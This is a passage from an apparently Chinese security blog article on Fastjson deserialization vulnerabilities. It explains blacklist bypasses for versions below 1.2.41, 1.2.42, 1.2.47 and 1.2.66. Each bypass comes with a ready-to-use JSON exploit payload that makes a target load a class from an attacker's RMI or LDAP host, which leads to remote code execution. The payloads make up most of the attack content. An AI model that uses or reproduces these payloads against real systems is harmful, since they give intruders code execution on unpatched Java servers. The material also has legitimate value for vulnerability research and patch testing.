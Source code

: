 运行之后就会把test.class文件转换为base64.txt文件，这时候再把base64.txt文件替换到payload中即可在dnslog中回显

![](https://gitee.com/fuli009/images/raw/master/public/20210822095655.png)image-20210819102057605

## < 1.2.41

第一个Fastjson反序列化漏洞爆出后，阿里在1.2.25版本设置了autoTypeSupport属性默认为false，并且增加了checkAutoType()函数，通过黑白名单的方式来防御Fastjson反序列化漏洞，因此后面发现的Fastjson反序列化漏洞都是针对黑名单绕过来实现攻击利用的目的的。

com.sun.rowset.jdbcRowSetlmpl在1.2.25版本被加入了黑名单，fastjson有个判断条件判断类名是否以"L"开头、以";"结尾，是的话就提取出其中的类名在加载进来

那么就可以构造如下exp

    
    
    {               "@type":"Lcom.sun.rowset.JdbcRowSetImpl;",    "dataSourceName":"rmi://ip:9999/rce_1_2_24_exploit",    "autoCommit":true}

## < 1.2.42

阿里在发现这个绕过漏洞之后做出了类名如果为`L`开头，;结尾的时候就先去掉`L`和`;`进行黑名单检验的方法，但是没有考虑到双写或多写的情况，也就是说这种方法只能防御一组`L`和`;`，构造exp如下，即双写`L`和`;`

    
    
    {               "@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",    "dataSourceName":"rmi://x.x.x.x:9999/exp",    "autoCommit":true}

## < 1.2.47

在1.2.47版本及以下的情况下，loadClass中默认cache为true，首先使用java.lang.Class把获取到的类缓存到mapping中，然后直接从缓存中获取到了com.sun.rowset.jdbcRowSetlmpl这个类，即可绕过黑名单

    
    
    { "a": { "@type": "java.lang.Class",  "val": "com.sun.rowset.JdbcRowSetImpl" },  "b": { "@type": "com.sun.rowset.JdbcRowSetImpl",  "dataSourceName": "rmi://ip:9999/exp",  "autoCommit": true }}

## < 1.2.66

基于黑名单绕过，autoTypeSupport属性为true才能使用，在1.2.25版本之后autoTypeSupport默认为false

    
    
    {"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://ip:1389/Calc"}{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://ip:1389/Calc"}{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://ip:1389/Calc"}

  

**![](https://gitee.com/fuli009/images/raw/master/public/20210822095656.png)**

  

 **推荐阅读：**

  

 **[干货 |
Spring系列CVE以及POC编写](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247498027&idx=1&sn=6800b032fb7d44edf98b8a95187a3d73&chksm=ec1cac14db6b25022aecbca4b54b9e76f8c5de9a448d0fcc4f36b7ef45daaa25b32829c24b6b&scene=21#wechat_redirect)  
**
